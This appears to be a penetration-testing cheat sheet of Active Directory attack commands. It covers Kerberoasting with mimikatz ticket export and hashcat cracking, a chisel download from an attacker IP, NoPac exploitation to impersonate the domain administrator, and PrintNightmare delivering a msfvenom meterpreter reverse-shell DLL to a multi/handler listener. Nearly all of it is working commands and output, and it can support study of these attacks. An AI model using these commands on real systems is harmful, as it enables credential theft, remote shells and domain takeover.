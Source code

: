 ```zsh
PS> setspn.exe -Q */*
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "TestSvc/TestHost.hoge.local:1433"
PS> setspn.exe -T HOGE.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
PS> .\mimikatz.exe
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
$ echo "<base64 TestUser>" |  tr -d \\n
$ cat encoded_file | base64 -d > TestUser.kirbi
$ python2.7 kirbi2john.py TestUser.kirbi
$ ls
crack_file
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > TestUser_tgs_hashcat
$ cat TestUser_tgs_hashcat
$krb5tgs$23$*TestUser.kirbi*$aaaa....$bbbb....
$ hashcat -m 13100 TestUser_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
## chisel delivery
```zsh
# XXX.XXX.XXX.XXX : Attacker IP
PS> Invoke-WebRequest -Uri http://XXX.XXX.XXX.XXX:80/chisel.exe
# error
PS> Invoke-WebRequest -Uri http://XXX.XXX.XXX.XXX:80/chisel.exe -OutFile C:\chisel.exe
# ok
```

## NoPac
```zsh
$ scanner.py hoge.com/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX -use-ldap
$ noPac.py hoge.com/TestUser:TestPassword -dc-ip XXX.XXX.XXX.XXX  -dc-host TEST-DC01 -shell --impersonate administrator -use-ldap
$ ls
administrator_DC01.hoge.com.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```
## PrintNightmare
```zsh
$ pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ ./setup.py install
$ rpcdump.py @XXX.XXX.XXX.XXX | egrep 'MS-RPRN|MS-PAR'
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YYY.YYY.YYY.YYY LPORT=8080 -f dll > testscript.dll
$ smbserver.py -smb2support TestShare /path/to/testscript.dll
Bleeding Edge Vulnerabilities
$ msfconsole
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST YYY.YYY.YYY.YYY
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
#
$ CVE-2021-1675.py hoge.com/TestUser:TestPassword@XXX.XXX.XXX.XXX '\\YYY.YYY.YYY.YYY\TestShare\testscript.dll'
```